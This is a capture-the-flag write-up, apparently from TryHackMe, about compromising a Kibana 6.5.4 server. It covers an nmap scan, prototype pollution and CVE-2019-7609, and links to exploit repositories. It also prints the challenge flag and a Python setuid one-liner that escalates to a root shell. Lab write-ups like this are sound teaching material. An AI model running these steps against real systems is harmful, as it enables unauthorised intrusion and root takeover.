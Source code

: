 
# Scanning and Enumeration

Doing an nmap scan:

```bash
nmap -p- -A -T4 10.10.127.152
```

Output:  

```bash
PORT     STATE SERVICE      VERSION

22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)

|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)

|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)

80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))

|_http-server-header: Apache/2.4.18 (Ubuntu)

|_http-title: Site doesnt have a title (text/html)

5044/tcp open  lxi-evntsvc?

5601/tcp open  esmagent?

| fingerprint-strings: 

|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 

|     HTTP/1.1 400 Bad Request

|   FourOhFourRequest: 

|     HTTP/1.1 404 Not Found

|     kbn-name: kibana

|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c

|     content-type: application/json; charset=utf-8

|     cache-control: no-cache

|     content-length: 60

|     connection: close

|     Date: Tue, 01 Sep 2020 18:07:18 GMT

|     {"statusCode":404,"error":"Not Found","message":"Not Found"}

|   GetRequest: 

|     HTTP/1.1 302 Found

|     location: /app/kibana

|     kbn-name: kibana

|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c

|     cache-control: no-cache

|     content-length: 0

|     connection: close

|     Date: Tue, 01 Sep 2020 18:07:15 GMT

|   HTTPOptions: 

|     HTTP/1.1 404 Not Found

|     kbn-name: kibana

|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c

|     content-type: application/json; charset=utf-8

|     cache-control: no-cache

|     content-length: 38

|     connection: close

|     Date: Tue, 01 Sep 2020 18:07:15 GMT

|_    {"statusCode":404,"error":"Not Found"}

Linux 3.10 - 3.13 (95%)
```

#### Port 80
Nothing much

#### Port 5044
Nothing much

#### Port 5601
We find **Kibana**

##### What is Kibana?

Kibana is an open source frontend application
that sits on top of the Elastic Stack,
providing search and data visualization capabilities
for data indexed in Elasticsearch

##### What is Elasticsearch?

Elasticsearch lets you store, search, and analyze with ease stuff
for your website. Maby looking for actions from a specific IP address,
analyze a spike in transaction requests and more

If we enumerate the kibana application we find in the Managment tab
that the version is:  
**6.5.4**

With a quick search and compining all the info from the previous questions
we conclude that:  
**The app is vulnerable to Prototype pollution**  
**CVE-2019-7609**  

##### What is Prototype pollution tho?

Based on this resources/presentations:  

[prototype polution in kiba](https://slides.com/securitymb/prototype-pollution-in-kibana/#/19)

[prototype pollution in general](https://www.youtube.com/watch?v=LUsiFV3dsK8)

[prototype pollution in general lecture](https://github.com/HoLyVieR/prototype-pollution-nsec18)

I understood that in js when we create an object,
there's a set of default properties that I can use,
such as *toString()*, This is called **prototype-based-inheritancs**

```javascript
let obj = {
    prop1: 123,
    prop2: 456,
}

obj.prop1 // 123
obj.toString() // f toString() {[native code]}
```

Every object in JS has a prototype (It can also be null)  
We can access it via:

```javascript
obj.__proto__
```

We can do something cool with this, called **prototype chain**

```javascript
obj2 = { prop3: 3, prop4, 4}
obj = { prop1: 1, prop2: 2, __proto__: obj2}

obj.prop1 // 1
obj.prop3 // 3
```

Basically the algorithm when trying to access obj.prop3 goes:  

1. Look if it is a property of obj
2. If's not, look if it is a property of obj2
3. It is! Process finished

Here is where **prototype pollution** comes in

```javascript
Object.prototype.pollution = 123 // 123

let obj = {} // undefined

obj.pollution // 123
```

**Prototype pollution** occurs when there is a bug in an application that
makes it possible to pollute Object.prototype with arbitary properties

An example would be:

```javascript
if (user.isAdmin) {
    // Do something important
}
```

And there's a bug in application so we can assign:  
Object.prototype.isAdmin = true  
Now everyone is admin

# Exploitation

I found a github repo that explains how to exploit this
[CVE](https://github.com/mpgn/CVE-2019-7609)  

Another way to get an easy shell is to download:
[this](https://github.com/LandGrey/CVE-2019-7609/)

Following the instruction I got a shell

```bash
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```

# Post Exploitation

If we look at question 5 we can imagine that the priv-esc will
have something to do with linux capabilities

##### What are linux capabilities?

Starting with kernel 2.2, Linux divides the privileges traditionally
associated with superuser into distinct units, known as capabilities,
which can be independently enabled and disabled.  Capabilities are a
per-thread attribute

We can see some usages:
[here](http://linux-vserver.org/Capabilities_and_Flags)
and
[here](https://man7.org/linux/man-pages/man7/capabilities.7.html)

To enumerate and see what **capabilities** this user has
we can do:

```bash
getcap -r /
```

We get:

```bash
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

# Privilege Escalation

cap_setuip+ep -> "allow changing of the UID"

The owner of the file is root. Meaning we, as user kibacan change our UID to
"0", whick is root.

```bash
./python3 -c ‘import os; os.setuid(0); os.system(“/bin/bash”)’
```
